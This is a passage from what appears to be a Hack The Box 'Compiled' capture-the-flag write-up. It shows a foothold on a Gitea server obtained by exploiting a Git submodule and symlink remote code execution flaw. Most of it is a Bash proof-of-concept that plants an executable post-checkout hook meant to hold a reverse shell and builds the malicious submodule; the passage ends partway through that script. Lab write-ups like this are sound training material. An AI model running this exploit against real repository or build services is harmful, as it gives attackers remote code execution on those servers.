 Finally, we submit the URL of the `venom` repository to the target application that clones and compiles repositories. During the cloning process, Git processes the submodule and encounters the malicious post-checkout hook in `scorpion`. This hook executes our reverse shell payload, establishing a connection to our listener.

## Initial Foothold

First we need to register a new account on the gitea instance.

![Gitea account creation](/images/HTB-Compiled/gitea_account_creation.png)

We also create two repositories.

![Gitea exploit repositories](/images/HTB-Compiled/exploit_repos.png)

[Here](https://github.com/amalmurali47/git_rce/blob/main/create_poc.sh), we find the Bash script used for the PoC, we can modify it for our needs.

Because we are probably using a new git account we will need to provide our identity first with:

```
git config --global user.email "you@example.com"
git config --global user.name "Your Name"
```

Here is the exact script I used, you still need to add a reverse shell command.

> Pay attention to the script you will need to modify it if your repositories names are different.

```bash
#!/bin/bash

# Configure Git settings for exploitation
git config --global protocol.file.allow always
git config --global core.symlinks true
git config --global init.defaultBranch main

# Clone the malicious repository (scorpion)
git clone http://compiled.htb:3000/kscorpio/scorpion.git
cd scorpion

# Set up the post-checkout hook with the reverse shell payload
mkdir -p y/hooks
cat >y/hooks/post-checkout <<EOF
#!/bin/sh
<INSERT YOUR PowerShell #3 (Base64) reverse shell from revshells.com here>
EOF

# Make the hook executable
chmod +x y/hooks/post-checkout

# Commit the hook to the repository
git add y/hooks/post-checkout
git commit -m "post-checkout"
git push

# Clone the venom repository and add the malicious submodule
cd ..
git clone http://compiled.htb:3000/kscorpio/venom.git
cd venom
git submodule add --name x/y "http://compiled.htb:3000/kscorpio/scorpion.git" A/modules/x

# Commit and push the submodule addition
git commit -m "add-submodule"
printf ".git" >dotgit.txt
git hash-object -w --stdin <dotgit.txt >dot-git.hash
printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" >index.info
```